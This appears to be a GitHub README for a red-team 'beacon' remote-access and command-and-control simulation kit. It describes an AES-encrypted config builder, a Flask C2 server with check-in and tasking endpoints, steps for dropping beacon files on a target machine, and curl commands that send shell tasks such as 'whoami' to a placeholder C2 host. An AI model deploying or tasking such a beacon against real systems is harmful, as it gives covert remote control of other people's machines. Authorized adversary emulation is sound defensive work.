 # simulated-adversary-control-agent-deployment

### Overview
Deploy a controlled, encrypted software agent designed to simulate real world attacker behavior without risk or persistence. Leverage the **Red Team Beacon Framework**, a modular encrypted beacon + C2 simulation stack for red team operations and adversary emulation. Built for secure testing of endpoint defenses, dynamic payload staging, and encrypted tasking.

- Validate defensive controls
- Identify detection gaps
- Simulate encrypted malware tasking

### Features
-  AES-256 encrypted configuration
-  HTTPS beacon polling
-  Modular agent actions (shell, file, screen)
-  No hardcoded infrastructure — all dynamic
-  Custom tasks delivered via secure backend
-  Flask-based tasking server
-  UID-based target tracking
-  GUI-based key & config builder (rat_config_studio.py)


### Perfect For
- CISOs preparing tabletop exercises  
- Security teams validating EDR/NDR alerting  
- Managed security firms offering offensive services  
- Internal red/purple teams staging custom payloads
  
### Deployment Stack:
```
├── rat_config_studio.py
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
├── c2_server.py
```
### How to use

**generate config & key on host machine**
```
python_rat_config_studio.py
generates rat.key, rat_config.json.enc
 Click “Generate AES-256 Key”
 Save the key securely
 Input your C2 URL, interval, and enabled modules
 Click “Encrypt Config”
 Deliver `.enc` file with corresponding `.key` to the beacon loader
 Use “Decrypt & View” to inspect any `.enc` file with the matching key
```
**run the c2 server**
```
python c2_server.py
```
**Server listens on:**
```
GET /checkin/<uid> – Polling beacon
POST /task/<uid> – Set task
POST /submit/<uid> – Receive result
```
**drop the following files onto target machine**
```
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
```
**On Target Machine Run**
```
python beacon.py
```
**open cmd prompt and send a task**
```
curl -k -X POST https://<hosting_c2_server>:8080/task/<UID> ^
  -H "Content-Type: application/json" ^
  -d '{"module": "shell", "args": "whoami"}'
or use a one-liner with a task.json file you create
curl -k -X POST http://<hosting_c2_server>:8080/task/<UID> -H "Content-Type: application/json" -d @task.json
``` 
**NOTE:**  this toolset is interchangeable meaning the c2_url, interval and enabled modlues can modified.  What you see here is a simple payload simulation and you can change the module to be a payload you wish to test.  You must make the changes in the **beacon_task_handler.py** yourself!
## Disclaimer
**This tool is provided for ethical red team operations, threat simulations, and research. Do not use against systems you do not own or manage.**
